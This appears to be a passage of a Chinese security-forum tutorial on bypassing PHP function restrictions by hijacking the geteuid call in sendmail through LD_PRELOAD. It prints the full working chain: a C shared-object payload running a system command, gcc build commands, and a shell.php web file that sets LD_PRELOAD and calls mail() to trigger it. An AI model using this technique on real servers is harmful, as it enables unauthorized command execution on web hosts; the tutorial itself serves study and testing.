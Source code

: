 ```php
; For Unix only.  You may supply arguments as well (default: "sendmail -t -i"). 
;sendmail_path =
```

默认为"sendmail -t -i"  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0fae5e50c44059dcd16c1f83bf9390d671118cb2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0fae5e50c44059dcd16c1f83bf9390d671118cb2.png)

但是sendmail并不是默认安装的,需要自己下载

使用命令`readelf -Ws /usr/sbin/sendmail`可以看到sendmail调用了哪些库函数,这里选择`geteuid`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a77954d58f5f0eb25ba80c303c0a2bf05010d1db.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a77954d58f5f0eb25ba80c303c0a2bf05010d1db.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ad3fd7f9a5eb6471437c4ac51c2892b3f4f27a95.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ad3fd7f9a5eb6471437c4ac51c2892b3f4f27a95.png)

创建一个`test.c`文件,并定义一个`geteuid`函数,目的是劫持该函数。

```php
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("whoami > /var/tmp/sd.txt");
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

使用gcc编译为.so文件

```powershell
gcc -c -fPIC test.c -o test
gcc -shared test -o test.so
```

这里有个坑:不要在windows上编译,编译出来是MZ头,不是ELF。

然后再上传test.so到指定目录下。

最后创建`shell.php`文件,上传到网站目录下,这里.so文件路径要写对。

```php
<?php
putenv("LD_PRELOAD=/var/www/test.so");
mail("","","","","");
?>
```
